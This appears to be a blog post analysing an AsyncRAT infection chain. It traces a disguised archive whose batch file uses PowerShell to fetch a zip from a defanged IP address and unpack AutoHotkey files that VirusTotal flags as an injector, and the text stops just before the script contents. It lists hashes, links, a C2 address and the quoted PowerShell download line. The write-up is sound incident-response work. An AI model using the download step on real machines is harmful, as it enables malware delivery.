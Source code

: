 ```yaml
---
title: "ASyncRAT [IR/Malware Analysis]"
date: 2025-01-19T14:55:40+11:00
tags: ['reverse_engineering', 'DFIR', 'threat_hunting']
draft: false
---
```


## Sandbox Surfing
It's been a while since I've done one of these, but I had some time and thought I'd do quick analysis of whatever random file I found on public submissions of any.run. The file I landed on is named `xx.jpg` (really a .zip file). This didn't appear to be the original file in this infection chain, so I needed to pivot in VT and find the execution parent. You can do this by clicking the `relations` tab and investigating the listed files.

![Relations tab of VT](/static/asyncrat/relations.png)
The first is ['police.zip'](https://www.virustotal.com/gui/file/3442a9e4f21d14a478076694bf1dd44268e950262270e7637936c05657531462) which contains ['sat.bat'](https://www.virustotal.com/gui/file/64c79060f8478363e93ae210e0bd7ba9178fecdd1a0badba4fed5382180d3a80).
`Police.zip` is actually a `.rar` archive. It is unclear where the original `.rar` file would have been downloaded from, likely via an e-mail attachment. 

The archive is presented to the victim user as follows:

![rar archive](/static/asyncrat/winrar.png)

Assuming the victim user has extracted this archive and executed the script `Sat.bat`, the first half of the batch file uses `powershell` to reach out to `hXXp://109.199.101[.]109:770/xx.jpg` using 
```powershell
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('%url%', '%filePath%')"
```
which will download a file named `x.zip` to `%UserProfile%\Documents` or `%UserProfile%\OneDrive\Documents` depending on whether or not the user has OneDrive: 
- File name: [x.zip](https://www.virustotal.com/gui/file/0268871620a416498e385020574721680eae7a9d887eb995fc6d3fef61d568d8/detection)
- MD5: 134af0f2fc2a9cd8976a242b81f8840f
- SHA256: 0268871620a416498e385020574721680eae7a9d887eb995fc6d3fef61d568d8 
- [any.run](https://app.any.run/tasks/e1113d45-76b5-4052-a824-c1c26162746e#)

`Powershell` will then extract these contents using the `Expand-Archive` cmdlet. This will produce the following three files:
- [AutoHotkey64.exe](https://www.virustotal.com/gui/file/16109cec66cf252e5b851739bc9f7639a1802a0c3998b3829950e52911ca6599)
This appears to be the legitimate, standard executable for AutoHotkey. "AutoHotkey is a free, open-source scripting language for Windows that allows users to easily create small to complex scripts for all kinds of tasks such as: form fillers, auto-clicking, macros, etc."
- [AutoHotkey64.ahk](https://www.virustotal.com/gui/file/6bd2a145c7017b2ee3434f4893f497999d2bd11818a56794a4b6df04c0cc6120)
Interestingly, this file has a Family label of `'ahkinjector'` in VT and is detected by Microsoft as the same. Looking into this file, we see: 
